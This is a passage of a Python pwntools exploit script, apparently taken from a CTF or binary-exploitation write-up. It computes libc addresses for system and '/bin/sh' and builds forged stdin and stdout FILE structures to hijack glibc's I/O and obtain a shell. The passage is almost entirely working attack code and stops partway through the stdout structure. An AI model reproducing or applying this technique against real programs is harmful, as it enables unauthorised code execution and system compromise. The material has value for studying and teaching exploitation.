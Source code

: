 ```python
binsh=next(libc.search(b"/bin/sh"))

# stdout, stdin FILE structure
stdout=libc.sym['_IO_2_1_stdout_']
stdin=libc.sym['_IO_2_1_stdin_']

'''  These value are not in libc... so I extracted that manually.
stdfile_lock=libc.sym['_IO_stdfile_1_lock']
wide_data=libc.sym["_IO_wide_data_1"]
io_str_jumps=libc.sym["_IO_str_jumps"]
'''

stdfile_lock=0x3ed8c0+libc.address
wide_data=0x3eb8c0+libc.address
io_str_jumps=0x3e8360+libc.address

log.info("< LIBC leak in stdout's write_base overwritten with NULL byte in LSB > ")
log.info(hex(leak))
log.info("< LIBC base >")
log.info(hex(libc.address))
log.info("< system@LIBC >")
log.info(hex(system))
log.info("< /bin/sh >")
log.info(hex(binsh))
log.info("< stdout / stdin >")
log.info("stdout => "+hex(stdout)+"\n"+"stdin => "+hex(stdin))

create1(0x200000, 0x5e6761 + 0x208010 + 0x2002b8, "A")
# Overwriting the `stdin` file structure
fake2= p64(0xfbad208b) # _flags as they were before
fake2+= p64(stdin) # _IO_read_ptr (needs to be a valid pointer)
fake2+= p64(0) * 5 # _IO_read_end to _IO_write_end can all be 0
fake2+= p64(stdout) # _IO_buf_base, we are overwriting stdout
fake2+= p64(stdout + 0x2000) # _IO_buf_end, we can overwrite 0x2000 bytes
fake2=fake2.ljust(0x84, b"\x00") # 0x84 byte padding to get to the next `fgets`

p.send(fake2)

log.info("final set")
p.recv()
#overwriting the `stdout` file structure
fake  = p64(0xfbad2084) # original _flags & ~_IO_USER_BUF
fake += p64(stdout) * 4 # _IO_read_ptr to _IO_write_base
fake += p64((binsh - 100) // 2) # _IO_write_ptr // ## [ 1 ]
fake += p64(0) * 2 # _IO_write_end and _IO_buf_base // ## [ 2 ]
fake += p64((binsh - 100) // 2) # _IO_buf_end // ## [ 3 ]
fake += p64(0) * 4 # _IO_save_base to _markers
fake += p64(stdin) # _chain
fake += p32(1) # _fileno
fake += p32(0) # _flags2
fake += p64(0xffffffffffffffff) # _old_offset
fake += p16(0) # _cur_column
fake += p8(0) # _vtable_offset
fake += b'\n' # _shortbuf
fake += p32(0) # padding between shortbuf and _lock
fake += p64(stdfile_lock) # _lock
#fake+=p64(0)
fake += p64(0xffffffffffffffff) # _offset
fake += p64(0) # _codecvt
fake += p64(wide_data) # _wide_data
#fake+=p64(0)
fake += p64(0) # _freeres_list
fake += p64(0) #_freeres_buf
```
